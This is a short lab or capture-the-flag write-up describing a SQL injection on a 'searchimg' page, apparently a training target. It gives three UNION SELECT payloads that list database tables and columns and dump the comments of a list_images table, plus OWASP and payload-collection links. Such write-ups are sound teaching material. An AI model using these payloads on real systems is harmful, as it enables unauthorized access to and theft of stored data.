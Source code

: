 # SQL injection (search images page)

To exploit, go to the `http://$IPADDR/?page=searchimg` and write the following commands at the search field:

List all the tables and related databases:
```
1 union select table_name, table_schema from information_schema.tables
```

List all table columns and related table names:
```
1 union select column_name, table_name from information_schema.columns
```

List all comments from list_images table:
```
1 union select id, comment from Member_images.list_images
```

## References
- [Information_schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html) structure
- [SQL Injection Attack — OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLi Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLi payload examples — PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)